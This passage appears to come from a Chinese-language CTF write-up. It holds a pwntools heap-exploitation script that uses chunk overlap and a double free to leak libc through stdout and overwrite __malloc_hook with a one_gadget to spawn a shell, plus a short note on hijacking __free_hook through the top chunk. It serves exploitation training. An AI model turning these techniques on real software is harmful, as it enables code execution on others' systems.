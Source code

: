 ```py
    p = process(filename)
    add(0x10, '0')#0
    add(0x70, '1')#1
    add(0x60, '2')#2
    add(0x10, '3')#3


    size = 0x70+0x10+0x60+0x10+0x1
    change(0, 0x30, p64(0)*3+p64(size))
    free(1)
    free(1)

    add(0x70, '0')#0
    change(0, 0x100, '\x00'*0x78+p64(0x71)+'\xdd\x65')

    #gdb.attach(p)
    try:
        add(0x60, '2')#2
        add(0x60, 'stderr')#3
        change(3, 0x100, '\x00'*0x3+p64(0)*0x6+p64(0xfbad1800)+p64(0)*0x3+'\x00')

        data = p.recvuntil('\x7f')
        libc_base = u64(data[-6:].ljust(8,'\x00'))-0x3c5600
        print('libc: '+hex(libc_base))
        free_hook = libc_base + libc.sym['__free_hook']
        malloc_hook = libc_base + libc.sym['__malloc_hook']
        realloc = libc_base + libc.sym['__libc_realloc']
        one_gadget = libc_base + 0x4526a

        add(0x60, '4')#4
        add(0x60, '5')#5
        add(0x60, '6')#6

        free(5)

        change(3, 0x100, 'a'*0x88+p64(0x71)+p64(malloc_hook-0x23))
        add(0x60, '3')
        add(0x60, '5'*0xb+p64(one_gadget)+p64(realloc+0xc))

        sla('choice:', '1')
        sla('name:', str(100))

        p.interactive()
    except:
        p.close()
```
### 补充 top_chunk 和 free_hook 利用

劫持`__free_hook`的思路是，想办法修改`top chunk(main_arena+88)`指向`__free_hook`上方某地址(`__free_hook-0xb58`)，然后多次分配内存，直到`__free_hook`地址附近，构造长度修改即可。


  [1]: https://xz.aliyun.com/t/6067
  [2]: http://static.zybuluo.com/leafish/jpp8avpsr27dzae7r1d9x6gz/image_1e693d72u1enl1cneadj3h41tng9.png
  [3]: https://kirin-say.top/2020/03/10/Kernoob-kmalloc-without-SMAP/
  [4]: http://static.zybuluo.com/leafish/evsddfq2iq6gwhck86bsdr0w/image_1e6bda8am1d31h36ubj1ul83079.png
  [5]: http://static.zybuluo.com/leafish/55my5icnzf3lnwnm1bu6zlyb/image_1e6becjm0hvr1bct1odg13ugbv4m.png
  [6]: http://static.zybuluo.com/leafish/413oe16gqt1ggrad5ho0hufa/image_1e6bh0sc91jdg1vir1b0urmt11lu13.png
  [7]: http://static.zybuluo.com/leafish/vyz71tvzk27vi1xlkuhub29q/image_1e6arvrf11sodt53eamhob163vm.png
  [8]: http://static.zybuluo.com/leafish/ull0t1d5zkiolnqkyd6jvrkm/image_1e3cegctudb774e9tl15d1n0q9.png
  [9]: http://static.zybuluo.com/leafish/fiw8hzlguct6w4mk2xzb4jsj/image_1e3ef7h6d10v61al4159f8p46k3m.png
  [10]: http://static.zybuluo.com/leafish/dm87f6we8lbvz08xgsksoubf/image_1e3efov151ckqmngalh1loi19v713.png
  [11]: http://static.zybuluo.com/leafish/a6m91ioa9l9xd0jcuct6cu5h/image_1e3eeat3mq56rv9bqm1udtk599.png
  [12]: http://static.zybuluo.com/leafish/0d4ntjurjrxcbf5mi1okz5te/image_1e3mch0hn1e5o1fqo1g8egom34h9.png
  [13]: http://static.zybuluo.com/leafish/noeaxbpb7ladjp6end8c8d6n/image_1e3p36h6gntr11qi1sfv89qpc09.png
  [14]: http://static.zybuluo.com/leafish/0wh1s7ttqasjk60vvbvdh5ar/image_1e3p39t88h7a1gno1rvi1ggcccpm.png
  [15]: http://static.zybuluo.com/leafish/5u93lj5peuib5v66grw07awr/image_1e3n3ma421g1q1ojd1516ikv1cok9.png
  [16]: http://static.zybuluo.com/leafish/jg93j2ppjpkfqnyutnf5b9to/image_1e3n5fcbj1o5c1omaco918i266km.png
  [17]: http://static.zybuluo.com/leafish/ej95qlwlrxb0h06h8rkycavy/image_1e3n5kj5k4391ulu1v4k12o1hfb13.png
  [18]: http://static.zybuluo.com/leafish/sp7r36az52z5p9andxjf3v5l/image_1e3n6oo8v1us91vcd31n13r31u2j1g.png
  [19]: http://static.zybuluo.com/leafish/vn0zh475yn0thyihbub3v4cm/image_1e3n7co4su6t1j3sb7m1jfl1k0h1t.png
  [20]: http://static.zybuluo.com/leafish/x7jpyo5qpj84b13dbcem1dtd/image_1e3n9dk8m1e5h9fp16edt7l1c042a.png